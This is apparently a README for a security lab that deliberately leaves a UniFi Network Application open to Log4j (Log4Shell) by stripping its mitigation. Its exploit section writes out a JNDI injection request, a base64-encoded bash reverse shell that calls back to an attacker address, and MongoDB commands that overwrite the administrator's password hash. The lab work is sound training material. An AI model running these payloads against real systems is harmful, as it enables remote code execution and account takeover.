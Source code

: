 # Log4j

The folder `scenarios/log4j` holds the files related to the Log4j vulnerable scenario.

To understand what the Log4j vulnerability involves, the following resources where explored:

- **Cloudflare**
  - https://blog.cloudflare.com/exploitation-of-cve-2021-44228-before-public-disclosure-and-evolution-of-waf-evasion-patterns/
  - https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/
  - https://blog.cloudflare.com/actual-cve-2021-44228-payloads-captured-in-the-wild/
- **LunaSec**
  - https://www.lunasec.io/docs/blog/log4j-zero-day/
- **LiveOverflow**
  - https://www.youtube.com/watch?v=kvREvOvSWt4
- **John Hammond:**
  - https://www.youtube.com/watch?v=7qoPDq41xhQ
- **TryHackMe**
  - https://tryhackme.com/room/solar#
  - https://m3n0sd0n4ld.github.io/thm/Lumberjack-Turtle/
  - https://www.youtube.com/watch?v=lJeAgQQaDEw (Shows how to update shell to Meterpreter)
- **SnykLearn**
  - https://learn.snyk.io/lessons/log4shell/java/
- **Reddit (Large Resource)**
	- https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/

## GitHub-Related References

- **GitHub**
  - Log4j Obfuscating Strings: https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words
  - Log4j POC: 
  - https://github.com/cyberxml/log4j-poc
  - https://github.com/kozmer/log4j-shell-poc
  - https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
  - Log4j Vulnerable App: https://github.com/christophetd/log4shell-vulnerable-app
  - YARA rules (DETECTION): https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b
  - Unifi: https://github.com/puzzlepeaches/Log4jUnifi
  - MarshalSec (Malicious LDAP): https://github.com/mbechler/marshalsec

This scenario is based in the Tier 2 HackTheBox **Unified** challenge and in the [SprocketSecurity blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi).

To reproduce a vulnerable version of Unifi Network Application the Docker container used was adapted from [goofball/unifi](https://github.com/goofball222/unifi). The version used (which can be also customized) is `6.4.54`. 

Typically, most of the Docker images present in this source were patched against Log4j, for instance, through the `JVM_EXTRA_OPTS=-Dlog4j2.formatMsgNoLookups=true` environment variable present in the respective Dockerfile. This disables variable lookups while in the Log4j logging tool that is vulnerable, meaning the final attack is unsuccessful.

After finding this was an issue to our vulnerable scenario, this option was removed from the Dockerfile. It's also important to notice that this Dockerfile is also built with a MongoDB database that supports the UniFi Network Application and where users are saved, according to [SprocketSecurity blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi).

> Deployment of the scenario was automated using Ansible. This may suffer changes in the future.

## Other Important Aspects During Setup

Initially, when acessing the UniFi Application Network web interface, the HTTPS connection was not secure because the presented certificate in the TLS connection wasn't signed by a trusted CA. To overcome this issue, we created a CA, as in the `ca/` folder. 

To achieve this, the commands in `ca/cmds.sh` were issued:

```bash
# Generate CA keys (private and public keys)
openssl req -x509 -newkey rsa:4096 -sha256 -days 3650 -keyout ca.key -out ca.crt

# Generating Certificate Signing Request (notice the subjectAltName which is mandatory, at least in Firefox!)
openssl req -newkey rsa:2048 -sha256 -keyout server.key -out server.csr -subj "/CN=example-domain.ui.com/O=UniFi/C=US" -passout pass:pass -addext "subjectAltName = DNS:example-domain.ui.com"

# Generate Server Public-key Certificate
openssl ca -config openssl.cnf -policy policy_anything -md sha256 -days 3650 -in server.csr -out server.crt -batch -cert ca.crt -keyfile ca.key

# Remove Password from server's private key
openssl rsa -in server.key -out server_nopass.key
```

> Notice also the need of the `openssl.cnf`, `serial`, `demoCA/`, and `index.txt` files/folders.

Afterwards, the private key of the issued certificate without password protection (`server_nopass.key`) was coppied into the `unifi-certs/` folder (this file was named **privkey.pem**), which is were our Docker bind mount is located. This is were UniFi fetches its SSL certificates.

*We've forced UniFi to always fetch the SSL certificates on every run, as this wasn't happening on every run, by default. This changes were enforced in the `entrypoint-functions.sh` file*. 

Then, regarding the **fullchain.pem**, we simply used:

```bash
cat server.crt ca.crt > fullchain.pem
```

Notice, there is a need to only include certificate information inside this file. No extra information should be present. The final format should be something like:

```
-----BEGIN (CA) CERTIFICATE-----
#######################################
-----END (CA) CERTIFICATE-----
-----BEGIN (SERVER) CERTIFICATE-----
#######################################
-----END (SERVER) CERTIFICATE-----
```

Then, there was the need of including our CA's public-key certificate by default on the attacker's kali machine, so that when they visited the UniFi Network Application web interface, the page would appear as safe. This was accomplished using the `policies.json` file in the `setup/` folder, where all the setup files (using Jinja2 templates) are present. The CA was defined as trusted also system-wide. The `entrypoint.sh` is the one that is triggered at the end and uses all the others.

Furthermore, a Selenium script, `setup/setup.py` was developed, being its main purpose complete the setup Wizard that appears on every start-up of the UniFi web interface. It creates an administrator user as specified in the credentials of the `all.yml` Ansible file. The `setup/requirements.txt` file holds the respective dependencies for the Selenium script to run.

# Exploit

Initially, I tried running exploits related to [TryHackMe Solr](https://tryhackme.com/room/solar#) but due to the Java version used by UniFi, it didn't work. It used [marshelsec](https://github.com/mbechler/marshalsec), a malicious LDAP server that redirected the LDAP request to a simple HTTP server that holded a malicious Java payload.

Therefore, the solution presented in [SprocketSecurity](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) was taken into consideration.

First, we test if the Log4j vulnerability indeed exists. We can also visit the UniFi Network Applicaiton at `https://example-domain.ui.com:8443`.

In the attacker's machine we run `nc -lnvp 9999` and in another terminal we can run:

```bash
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.135.0.2:9999/whatever}","strict":true}'
```

> 172.135.0.2 is the attacker machine's IP address. Notice the "remember" parameter as the one vulnerable to the Log4j attack.

If we receive a connection in `nc` we know the application is vulnerable to Log4j, which indeed is.

Then, by doing: 

```bash
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

We are using [rogue-jndi](https://github.com/veracode-research/rogue-jndi), a malicious LDAP application that also creates an HTTP server that will inject the payload.

We then generate our payload which is:

```bash
echo 'bash -c bash -i >&/dev/tcp/172.135.0.2/4444 0>&1' | base64
```

We setup our netcat listener using `nc -lnvp 4444` and then we run:

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTcyLjEzNS4wLjIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "172.135.0.2"
```

By running:

```bash
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.135.0.2:1389/o=tomcat}","strict":true}'
```

In our netcat listener we then obtain a Reverse Shell with access to the victim machine.

> This [GitHub repository](https://github.com/puzzlepeaches/Log4jUnifi) specifies the same attack on an automated way using a python script.

> ***The SprocketSecurity post dives deeper on lateral movement which can also be interesting. For instance, changing UniFi's login page credentials, so we can enter it and pottentially have access to new devices sitting in the Mesh network.***

Firstly, we can list the contents of the Administrators in MongoDB:

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.4.4
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.4.4
{
"_id" : ObjectId("64750f87f19ea8014a2ceb6d"),
"name" : "test_user",
"email" : "admin@hotmail.com",
"x_shadow" : "$6$msad4FLZ$WwZoWNYAGbcGY3bF8HVBQ.t.69dt/
ogu1nsmeTjsorz4dBl3Q0Waoya35R.Gm0qEgPoVsUorIhVRVpoiG8cFo/
",
"time_created" : NumberLong(1685393287),
"last_site_name" : "default"
}
```

Then, we generate the SHA-512 hash of he password string "mypassword", which will be used in the login page: `mkpasswd -m sha-512 mypassword`.

At last, we update the Administrator's password in MongoDB with the one we created using: `mongo --port 27117 ace --eval ’db.admin.update({"_id":ObjectId
("ADMIN_OBJECT_ID")},{$set:{"x_shadow":"$6$zsmtIX0rAM.
G4P8a$TKt4eg15VC11zpQaCVS6nLHdOYOzlfjO5m3Tvle7rtc1SOvMRYTT0jBBnRc
CqY5lAOLDNst3xfGQdX99GtpD0."}})’`.

We can now successfully use `test_user` as the username and `mypassword` as the password to login in UniFi's dashboard.


> There is also the possibility of upgrade to a better shell.